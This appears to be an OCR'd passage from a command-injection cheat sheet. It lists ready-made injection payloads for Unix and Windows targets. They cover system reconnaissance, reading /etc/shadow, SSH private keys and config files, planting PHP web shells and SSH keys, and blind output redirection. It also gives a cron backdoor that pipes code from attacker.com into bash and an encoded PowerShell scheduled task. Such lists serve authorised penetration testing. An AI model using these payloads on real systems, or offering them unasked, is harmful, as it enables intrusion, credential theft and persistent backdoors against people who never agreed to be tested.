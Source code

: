   - **Direct exploitation techniques**
    
    - **Gathering system information**
      - Operating system details:
        - Unix: `& uname -a &`
        - Windows: `& ver &`
      - Current user:
        - Unix/Windows: `& whoami &`
      - User privileges:
        - Unix: `& id &`
        - Windows: `& whoami /priv &`
      - Network configuration:
        - Unix: `& ifconfig &`
        - Windows: `& ipconfig /all &`
      - Directory listing:
        - Unix: `& ls -la &`
        - Windows: `& dir &`
      - Installed software:
        - Unix: `& dpkg -l &` or `& rpm -qa &`
        - Windows: `& wmic product get name,version &`
    
    - **Reading sensitive files**
      - Common sensitive files:
        - Unix: 
          - `& cat /etc/passwd &`
          - `& cat /etc/shadow &`
          - `& cat /home/user/.ssh/id_rsa &`
          - `& cat /var/www/html/config.php &`
        - Windows:
          - `& type C:\Windows\win.ini &`
          - `& type C:\Windows\System32\drivers\etc\hosts &`
          - `& type C:\Users\Administrator\Desktop\passwords.txt &`
      - Example: `https://example.com/ping?host=8.8.8.8 & cat /etc/passwd &`
    
    - **Writing files to gain persistence**
      - Web shells:
        - Unix: `& echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php &`
        - Windows: `& echo ^<?php system($_GET["cmd"]); ?^> > C:\inetpub\wwwroot\shell.php &`
      - SSH keys:
        - `& echo "ssh-rsa AAAA..." >> /home/user/.ssh/authorized_keys &`
      - Scheduled tasks/cron jobs:
        - Unix: `& echo "* * * * * curl http://attacker.com/shell.php | bash" > /etc/cron.d/backdoor &`
        - Windows: `& schtasks /create /tn "Backdoor" /tr "powershell -e Base64EncodedPayload" /sc minute &`
  
  - **Blind exploitation techniques**
    
    - **Output redirection**
      - Redirecting command output to readable files:
        - Unix: `& whoami > /var/www/html/output.txt &`
        - Windows: `& whoami > C:\inetpub\wwwroot\output.txt &`
      - Appending to existing files:
        - Unix: `& id >> /var/www/html/output.txt &`
        - Windows: `& net user >> C:\inetpub\wwwroot\output.txt &`
      - Example: `https://example.com/ping?host=8.8.8.8 & cat /etc/passwd > /var/www/html/passwd.txt &`
    